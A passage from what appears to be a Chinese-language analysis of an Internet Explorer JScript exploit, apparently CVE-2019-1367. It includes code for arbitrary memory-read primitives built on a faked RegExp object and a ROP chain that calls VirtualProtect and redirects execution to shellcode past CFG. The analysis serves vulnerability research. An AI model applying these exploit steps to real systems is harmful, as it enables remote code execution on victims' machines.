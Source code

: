 有了任意地址写原语后，配合 RegExpObj+0x48 处的 variant，就可以通过修改 type 和 obj_ptr 的方式实现任意地址读取，由于 BSTR 对象的 length 在读取时会除以 2，所以具体的读取函数会借助移位来避免数据失真。

```
function readBYTE(where){
    write(fakeRegExpAddr + m_varSrc, 0x82);
    write(fakeRegExpAddr + m_varSrc + bstrVal, where + sizeof_DWORD - 1);
    return (fakeRegExp.source.length >> 7) & 0xFF;
}
 
function readWORD(where){
    return ((readBYTE(where + 1) << 8) | readBYTE(where));
}
 
function readDWORD(where){
    return ((readBYTE(where + 3) << 24) | (readBYTE(where + 2) << 16) | (readBYTE(where + 1) << 8) | readBYTE(where));
}

```

### 代码执行

构造出任意地址读写原语后，利用代码首先借助这两个原语封装了一系列功能函数，然后借助 write 函数的返回值泄露了 一个 native 栈上的地址，并在该基础上得到一个栈上的返回地址，用搜索得到的 ROP gadget 覆盖之，在函数返回时，控制流被劫持，绕过 CFG 并运行 shellcode：

```
write(newEbp + 4, popEcxRet + 1);                                            // rop gadget: ret
write(newEbp + 4 + 4 + 0x18, popEcxRet);                                     // rop gadget: pop eax; ret
write(newEbp + 4 + 4 + 0x1C, popEcxRet + 1);                                 // rop gadget: ret
write(newEbp + 4 + 4 + 0x20, popEbpRet);                                     // virtual Protect Address
write(newEbp + 4 + 4 + 4 + 0x20, fakeRegExpAddr + sizeof_RegExpObj);         // virtual protect return address (shellcode address)
write(newEbp + 4 + 4 + 4 + 4 + 0x20, fakeRegExpAddr + sizeof_RegExpObj);     // lpAddress (shellcode address)
write(newEbp + 4 + 4 + 4 + 4 + 4 + 0x20, (shellcode.length * sizeof_WCHAR)); // dwSize (shellcode size)
write(newEbp + 4 + 4 + 4 + 4 + 4 + 4 + 0x20, 0x40);                          // PAGE_EXECUTE_READWRITE
write(newEbp + 4 + 4 + 4 + 4 + 4 + 4 + 4 + 0x20, newEbp - 0x1000);           // oldprotect
write(regExpExecAddress, newEbp);                                            // <-- overwrites return address in the native stack

```

关于该利用的更多细节可以参考这篇文章：

```
https://blog.confiant.com/internet-explorer-cve-2019-1367-exploitation-part-2-8143242b5780

```

谈谈此类漏洞产生的根源
-----------
